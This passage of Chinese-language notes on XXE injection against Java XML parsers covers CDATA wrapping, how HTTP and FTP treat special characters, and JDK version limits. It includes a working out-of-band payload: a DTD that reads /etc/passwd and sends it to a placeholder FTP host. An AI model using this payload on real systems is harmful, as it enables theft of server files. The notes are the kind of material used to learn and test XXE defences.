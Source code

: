 * 采用之前谈到过的\<![CDATA[]]\>将包含预定义字符括起来

* 注意：
  
  * \<root\>&evil;\</root\>在进行解析时，如果&evil;包含的字符中有预定义字符，解析可能会出错
  * "%start;%xxe;%end;" 这种写法只有在外部实体才合法，所以这里没有直接写在内部DCOTYPE声明
  * 在xml文档中使用多个 &实体;  例如下面这个拼接不可行
  
  ```xml
  <!DOCTYPE root [
      <!ENTITY  start "<![CDATA[">
      <!ENTITY  xxe SYSTEM "想要包含的文件">
      <!ENTITY  end "]]>">
  ]>
  
  <root>&start;&xxe;&end;</root>
  ```

#### http和ftp对于特殊字符的限制

> 所有的【\r】 都会被替换为【\n】
> 如果含有特殊字符 【%】 【&】 会完全出错。
> 如果含有特殊字符 【’】 【”】 可以稍微绕过。
> 如果含有特殊字符 【?】，对 http 无影响，对 ftp 会造成截断。
> 如果含有特殊字符【/】， 对 http 无影响，对 ftp 需要额外增加解析的 case。
> 如果含有特殊字符【#】，会造成截断。

#### 后端对某些字符的过滤

* 对%：使用\&#37;替代

* 对&

#### 通过ftp外带

```xml
<!DOCTYPE root SYSTEM "dtd url">
<root>&send;</root>
```

```dtd
<!ENTITY % start "<![CDATA[">
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY % end "]]>">
<!ENTITY % evil "%start;%xxe;%end;">
<!ENTITY % dtd "<!ENTITY send SYSTEM 'ftp://xxx/%evil;'>">
%dtd;
```

#### 高jdk版本(TODO)

在高jdk版本下，外带文件(http和jdk外带)受到换行符的影响，也就是说无法外带多行文件，以ftp为例：

* <7u141-b00 或 <8u131-b09 ：不会受文件中\n的影响
* jdk8u131：能创建 FTP 连接，外带文件内容中含有\n则抛出异常
* jdk8u232：不能创建 FTP 连接，只要 url 中含有\n就会抛出异常
